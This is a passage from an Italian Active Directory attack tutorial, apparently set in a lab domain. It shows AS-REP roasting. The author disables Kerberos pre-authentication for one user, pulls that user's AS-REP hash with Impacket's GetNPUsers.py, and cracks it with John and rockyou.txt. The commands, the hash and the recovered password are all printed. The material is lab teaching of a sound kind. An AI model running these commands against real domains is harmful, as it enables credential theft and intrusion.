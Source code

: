Abbiamo scoperto che l'utente "atom" esiste!

Nota: Nella maggioranza dei casi, non capiterà in ambienti reali di riuscire a bruteforzare usando solo dei nomi, è invece ben più probabile che il dominio adotti una "Naming Convention" e che quindi gli username possano essere del tipo "mrossi" oppure "m.rossi" o anche "matteo.rossi".

### Con solo degli username - ASREPRoast
Se invece abbiamo già fatto enumeration o anche un po' di OSINT e abbiamo già dei nomi, possiamo provare a sperare che qualche utente abbia l'attributo "UF_DONT_REQUIRE_PREAUTH" settato e che quindi sia possibile chiedere un ticket per conto di quell'utente.

Per settare l'attributo è sufficiente, dal Domain Controller, andare su Server Manager -> Users and Computers -> Users -> utente target -> Properties -> Account -> Do Not Require Pre Authentication. Quindi Apply e Ok per confermare.
![](https://i.imgur.com/h7dXZej.png)

Fatto ciò, se riproviamo l'attacco precedente potremo ottenere un ticket per Atom ed incontreremo una nuova challenge, cioè quella di provare ad ottenere la password dell'utente crackando il ticket.

```
GetNPUsers.py ace.local/ -usersfile users -no-pass -dc-ip dc
Impacket v0.10.1.dev1+20220711.165137.65ff31d3 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$atom@ACE.LOCAL:5bb8fa2e85adc28956d77cdc606af213$f71baf76bc2f04f623a7cc96e71449ba5a2b3a1d81063c20c48fdfb1b77e57cc4918077c0df9b521b98bde57876046c8c5193988be2b6559080d881168eb68fa4ac76c1bfa7154f53303d8524bbd474cc8f12f0a879293b4e545ad5554b3ff029c99263a7cabc581480a49ae7d831ba381e14111c859c563cf73a41aa193ab3e104dc84a00e10b8a887b053a26b3286823f042b59a84654a2308e28af89afb52dcad2947873d78d956ac4786d741a7a8a037560c49225dfa5811c2603f0b559f701a5b9131b421e8f552f199c995f2820143f3f4d7c1ae2a666a37803c0a6639a97bdedeac52
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Scriviamo il ticket cifrato in un file e tentiamo di crackarlo con John:

```
john atom.hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password#        ($krb5asrep$23$atom@ACE.LOCAL)     
1g 0:00:00:04 DONE (2022-07-16 20:26) 0.2277g/s 3267Kp/s 3267Kc/s 3267KC/s !)(OPPQR..Password#
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Ci è andata bene, abbiamo ottenuto la password!

### Con credenziali
